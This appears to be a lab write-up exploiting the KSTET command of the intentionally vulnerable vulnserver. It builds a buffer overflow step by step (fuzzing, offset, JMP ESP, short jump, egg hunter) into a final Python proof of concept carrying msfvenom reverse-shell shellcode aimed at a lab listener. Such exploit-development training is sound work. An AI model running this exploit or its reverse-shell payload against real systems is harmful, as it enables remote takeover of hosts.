








# KSTET: Multi-Stage Payload

-----

## Crashing the application

First thing we want to do is begin fuzzing the application. To do this, let's write a quick spike script to see if we can crash vulnserver.

```
s_readline();
s_string("KSTET ");
s_string_variable(0);
```

Now let's use `generic_send_tcp` to try and crash the application.

```bash
generic_send_tcp 10.10.178.94 9999 kstet.spk 0 0
```

We successfully crashed vulnserver.



-----

## Replicating the crash

Now that we know we have a crash, let's try to replicate the crash. To do this, we are going to write a quick fuzz script in Python.

```python
#!/usr/bin/env python3

import socket
import sys
import time

# Target information
host = "10.10.178.94"
port = 9999

prefix = "KSTET /.:/"
timeout = 5

string = prefix + "A" * 100

while True:
    try:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
            s.settimeout(timeout)
            s.connect((host, port))
            s.recv(1024)
            print("Fuzzing with {} bytes.".format(len(string) - len(prefix)))
            s.send(bytes(string, "latin-1"))
            s.recv(1024)
    except:
        print("Fuzzing crashed at {} bytes.".format(len(string) - len(prefix)))
        sys.exit(0)
    string += "A" * 100
    time.sleep(1)
```

The crash was replicated after only 100 bytes. This leads me to believe that there will later be some "jumping around" to properly exploit the application.


-----

## Finding the offset

Now that we know 100 bytes will crash and overwrite the EIP, let's find where the offset is to try and overwrite the EIP address.

First we need to generate a cyclic string

```bash
msf-pattern_create -l 100
```

Now let's try to overwrite the EIP with a cyclic string.

```python
#!/usr/bin/env python3

import socket
import struct

# Target information
host = "10.10.178.94"
port = 9999

prefix = b"KSTET /.:/"
#crash_length = 100

# msf-pattern_create -l 100
cyclic = b"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A"

payload = b"".join([
    prefix,
    cyclic
])

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    try:
        s.connect((host, port))
        print("Sending buffer...")
        s.send(payload + b"\r\n")
        print("Done!")
    except:
        print("Could not connect.")
```

Now, let's use the current value of the EIP to find the offset.



```bash
msf-pattern_offset -l 100 -q 41326341
```

From this, we know the offset is going to be 66. Let's verify this by trying to overwrite with "B"s.

```python
#!/usr/bin/env python3

import socket
import struct

# Target information
host = "10.10.178.94"
port = 9999

prefix = b"KSTET /.:/"
crash_length = 100

# msf-pattern_offset -l 100 -q 41326341 
offset = 66

payload = b"".join([
    prefix,
    b"A" * offset,
    b"B" * 4,
    b"C" * (crash_length - len(prefix) - offset - 4)
])

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    try:
        s.connect((host, port))
        print("Sending buffer...")
        s.send(payload + b"\r\n")
        print("Done!")
    except:
        print("Could not connect.")
```

After sending our current exploit, we have been able to overwrite the EIP with all "B"s. This verifies out offset is correct.



-----

## Locating JMP ESP address

Now that we can control the instruction pointer, let's find a `JMP ESP` instruction to try an execute code on the stack. This can be done within Immunity Debugger with mona.

```
!mona jmp -r esp
```



Based on the output of mona, it is best if we choose an address with no protections (ascii if possible). Let's choose `0x62501203`. Now let's by using a breakpoint, let's verify we can cause the application to go to our chosen address.

```python
#!/usr/bin/env python3

import socket
import struct

# Target information
host = "10.10.178.94"
port = 9999

prefix = b"KSTET /.:/"
crash_length = 100

# msf-pattern_offset -l 100 -q 41326341 
offset = 66

jmp_esp = 0x62501203
new_eip = struct.pack("<I", jmp_esp)

payload = b"".join([
    prefix,
    b"A" * offset,
    new_eip,
    b"C" *  (crash_length - len(prefix) - offset - len(new_eip))
])

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    try:
        s.connect((host, port))
        print("Sending buffer...")
        s.send(payload + b"\r\n")
        print("Done!")
    except:
        print("Could not connect.")
```

As shown below, we successfully overwritten the EIP and jumped to our EIP location.



Now, we have a small issue. Our crash length was 100 and our offset is at 66. That is a very small space to put shellcode in. My proposed solution is to use a 3-stage payload.

1. Perform a short jump back into the "A"s that we used to overflow.
2. Replace the beginning "A"s with an egg hunter.
3. Inject an egg, as well as our shellcode, into memory by using a separate command. We will use TRUN in this case.

-----

## Payload Stage 1: Short Jump

First thing we need to do is calculate the opcode for a short jump back 70 bytes (66 bytes for the offset, 4 for the EIP). We can do this using a nasm shell.

```bash
msf-nasm_shell
```



As shown, our opcode is `EBB8`. We are going to pad this with NOPs to get the full 8 bytes: `0x9090B8EB`. Let's set a break point and verify this works.

```python
#!/usr/bin/env python3

import socket
import struct

# Target information
host = "10.10.178.94"
port = 9999

prefix = b"KSTET /.:/"
crash_length = 100

# msf-pattern_offset -l 100 -q 41326341 
offset = 66

jmp_esp = 0x62501203
new_eip = struct.pack("<I", jmp_esp)

short_jump = struct.pack("<I", 0x9090B8EB)

payload = b"".join([
    prefix,
    b"A" * offset,
    new_eip,
    short_jump,
    b"C" *  (crash_length - len(prefix) - offset - len(new_eip) - len(short_jump))
])

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    try:
        s.connect((host, port))
        print("Sending buffer...")
        s.send(payload + b"\r\n")
        print("Done!")
    except:
        print("Could not connect.")
```



-----

## Payload Stage 2: Egg Hunter

Now, let's set up an egg hunter to search for our shellcode somewhere else.

```bash
msf-egghunter -b "\x00" -e c0de -f python -v egghunter 
```

Here's our proof of concept so far:

```python
#!/usr/bin/env python3

import socket
import struct

# Target information
host = "10.10.178.94"
port = 9999

prefix = b"KSTET /.:/"
crash_length = 100

# msf-pattern_offset -l 100 -q 41326341 
offset = 66

jmp_esp = 0x62501203
new_eip = struct.pack("<I", jmp_esp)

short_jump = struct.pack("<I", 0x9090B8EB)

# msf-egghunter -b "\x00" -e c0de -f python -v egghunter 
egghunter =  b""
egghunter += b"\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd"
egghunter += b"\x2e\x3c\x05\x5a\x74\xef\xb8\x63\x30\x64\x65"
egghunter += b"\x89\xd7\xaf\x75\xea\xaf\x75\xe7\xff\xe7"


payload = b"".join([
    prefix,
    egghunter,
    b"A" * (offset - len(egghunter)),
    new_eip,
    short_jump,
    b"C" *  (crash_length - len(prefix) - offset - len(new_eip) - len(short_jump))
])

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    try:
        s.connect((host, port))
        print("Sending buffer...")
        s.send(payload + b"\r\n")
        print("Done!")
    except:
        print("Could not connect.")
```

Before we fire off the final exploit, we still need to generate shellcode and inject it with our egg into memory. Our  egg in this instance is going to be `c0dec0de`.

-----

## Payload Stage 3: Injecting Our Egg and Shellcode into Memory

Finally, let's generate our shellcode to generate a reverse shell.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.9.6.209 LPORT=9001 EXITFUNC=thread -b "\x00" -f python -v shellcode
```

Essentially, before we launch our buffer overflow into KSTET, we are going to first send `TRUN c0dec0de` immediately followed by our shellcode.

-----

## Putting the Pieces Together

Here is our final proof of concept code:

```python
#!/usr/bin/env python3

import socket
import struct

# Target information
host = "10.10.178.94"
port = 9999

prefix = b"KSTET /.:/"
crash_length = 100

# msf-pattern_offset -l 100 -q 41326341 
offset = 66

jmp_esp = 0x62501203
new_eip = struct.pack("<I", jmp_esp)

short_jump = struct.pack("<I", 0x9090B8EB)

# msf-egghunter -b "\x00" -e c0de -f python -v egghunter 
egghunter =  b""
egghunter += b"\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd"
egghunter += b"\x2e\x3c\x05\x5a\x74\xef\xb8\x63\x30\x64\x65"
egghunter += b"\x89\xd7\xaf\x75\xea\xaf\x75\xe7\xff\xe7"

# msfvenom -p windows/shell_reverse_tcp LHOST=10.9.6.209 LPORT=9001 EXITFUNC=thread -b "\x00" -f python -v shellcode
shellcode =  b""
shellcode += b"\xba\xb1\x66\x52\x22\xd9\xc1\xd9\x74\x24\xf4"
shellcode += b"\x5b\x33\xc9\xb1\x52\x31\x53\x12\x03\x53\x12"
shellcode += b"\x83\x5a\x9a\xb0\xd7\x60\x8b\xb7\x18\x98\x4c"
shellcode += b"\xd8\x91\x7d\x7d\xd8\xc6\xf6\x2e\xe8\x8d\x5a"
shellcode += b"\xc3\x83\xc0\x4e\x50\xe1\xcc\x61\xd1\x4c\x2b"
shellcode += b"\x4c\xe2\xfd\x0f\xcf\x60\xfc\x43\x2f\x58\xcf"
shellcode += b"\x91\x2e\x9d\x32\x5b\x62\x76\x38\xce\x92\xf3"
shellcode += b"\x74\xd3\x19\x4f\x98\x53\xfe\x18\x9b\x72\x51"
shellcode += b"\x12\xc2\x54\x50\xf7\x7e\xdd\x4a\x14\xba\x97"
shellcode += b"\xe1\xee\x30\x26\x23\x3f\xb8\x85\x0a\x8f\x4b"
shellcode += b"\xd7\x4b\x28\xb4\xa2\xa5\x4a\x49\xb5\x72\x30"
shellcode += b"\x95\x30\x60\x92\x5e\xe2\x4c\x22\xb2\x75\x07"
shellcode += b"\x28\x7f\xf1\x4f\x2d\x7e\xd6\xe4\x49\x0b\xd9"
shellcode += b"\x2a\xd8\x4f\xfe\xee\x80\x14\x9f\xb7\x6c\xfa"
shellcode += b"\xa0\xa7\xce\xa3\x04\xac\xe3\xb0\x34\xef\x6b"
shellcode += b"\x74\x75\x0f\x6c\x12\x0e\x7c\x5e\xbd\xa4\xea"
shellcode += b"\xd2\x36\x63\xed\x15\x6d\xd3\x61\xe8\x8e\x24"
shellcode += b"\xa8\x2f\xda\x74\xc2\x86\x63\x1f\x12\x26\xb6"
shellcode += b"\xb0\x42\x88\x69\x71\x32\x68\xda\x19\x58\x67"
shellcode += b"\x05\x39\x63\xad\x2e\xd0\x9e\x26\x5b\x2c\xa6"
shellcode += b"\x67\x33\x2c\xa6\xa4\xed\xb9\x40\xc0\xfd\xef"
shellcode += b"\xdb\x7d\x67\xaa\x97\x1c\x68\x60\xd2\x1f\xe2"
shellcode += b"\x87\x23\xd1\x03\xed\x37\x86\xe3\xb8\x65\x01"
shellcode += b"\xfb\x16\x01\xcd\x6e\xfd\xd1\x98\x92\xaa\x86"
shellcode += b"\xcd\x65\xa3\x42\xe0\xdc\x1d\x70\xf9\xb9\x66"
shellcode += b"\x30\x26\x7a\x68\xb9\xab\xc6\x4e\xa9\x75\xc6"
shellcode += b"\xca\x9d\x29\x91\x84\x4b\x8c\x4b\x67\x25\x46"
shellcode += b"\x27\x21\xa1\x1f\x0b\xf2\xb7\x1f\x46\x84\x57"
shellcode += b"\x91\x3f\xd1\x68\x1e\xa8\xd5\x11\x42\x48\x19"
shellcode += b"\xc8\xc6\x68\xf8\xd8\x32\x01\xa5\x89\xfe\x4c"
shellcode += b"\x56\x64\x3c\x69\xd5\x8c\xbd\x8e\xc5\xe5\xb8"
shellcode += b"\xcb\x41\x16\xb1\x44\x24\x18\x66\x64\x6d"

injection_prefix = b"TRUN "
egg = b"c0de" * 2

inject_into_memory = b"".join([
    injection_prefix,
    egg,
    shellcode
])

payload = b"".join([
    prefix,
    egghunter,
    b"A" * (offset - len(egghunter)),
    new_eip,
    short_jump,
    b"C" *  (crash_length - len(prefix) - offset - len(new_eip) - len(short_jump))
])

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    try:
        s.connect((host, port))
        print("Injecting into memory...")
        s.send(inject_into_memory + b"\r\n")
    except:
        print("Could not connect.")

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    try:
        s.connect((host, port))
        print("Sending buffer...")
        s.send(payload + b"\r\n")
        print("Done!")
    except:
        print("Could not connect.")
```

Let's set up a netcat lister and hope to catch a reverse shell.

